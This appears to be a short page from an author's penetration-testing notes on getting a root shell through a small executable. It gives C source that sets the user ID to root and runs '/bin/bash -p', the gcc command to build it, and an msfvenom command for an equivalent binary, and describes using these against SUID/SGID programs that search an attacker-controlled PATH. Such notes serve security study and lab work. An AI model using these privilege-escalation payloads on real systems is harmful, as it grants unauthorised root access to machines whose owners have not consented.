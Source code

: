 # How to Load a Shell with a Simple Executable

author:: Nathan Acks  
date:: 2021-11-02

It's actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the LD_PRELOAD trick; the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)

# Metasploit

The msfvenom tool can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf \
         -o shell.elf
```

* [Using Metasploit](metasploit.md)
